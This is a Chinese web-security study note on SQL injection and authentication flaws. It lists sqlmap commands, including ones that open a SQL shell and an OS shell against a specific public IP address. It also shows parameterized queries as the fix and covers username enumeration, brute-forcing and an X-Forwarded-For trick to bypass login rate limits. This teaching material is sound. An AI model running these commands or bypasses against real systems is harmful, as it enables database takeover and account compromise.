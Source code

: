 

**sqlmap使用**

```shell
远程连接数据库
$ python sqlmap.py -d "mysql://admin:admin@192.168.21.17:3306/testdb" -f --bann\
er --dbs --users
扫描网址
$ python sqlmap.py -u "http://www.target.com/vuln.php?id=1" -f --banner --dbs --users
从Burp Suite 的请求log file中扫描
$ python sqlmap.py -l logfile -f --banner --dbs --users
同时扫描多个url -m
从request 请求中扫描 -r
--passwords -U username 破解密码

直接进入数据库模式
python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —sql-shell
直接进入命令行窗口
python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —os-shell
```





**防范方法**

使用参数化查询而不是通过字符串拼接实现

```java
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);

//重写
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

### 身份认证漏洞

由于代码开发逻辑错误，或是通过暴力破解的方式绕过用户信息认证，以此进一步获取敏感信息，或是进一步高级渗透。

**基于密码认证的爆破**

1. 用户名猜测 用户名可以手机号，邮箱等组合
2. 密码爆破 密码设置的规则性
3. 用户名遍历 依据网页返回的结果的不同来查看是否用户名存在,然后再用密码暴力破解
   1. Status code 返回的状态码不同
   2. 页面信息 返回的报错/页面信息不同
   3. 响应的时间不同 通过输入很长的密码让网站在密码匹配上花上更多的时间（对哈希后的密码无效）
   4. 网页对尝试登录失败次数过多的用户锁定，返回锁定信息，根据这个可以确认用户
4. 通过代码错误逻辑绕过IP访问控制 如果登录成功后，失败次数清0，可在爆破字典添加已知账号密码

IP访问次数限制绕过  X-Forwarded-For：ip0,ip1,ip2 （需要服务器采用X-Forward-For来判断客户端IP地址）
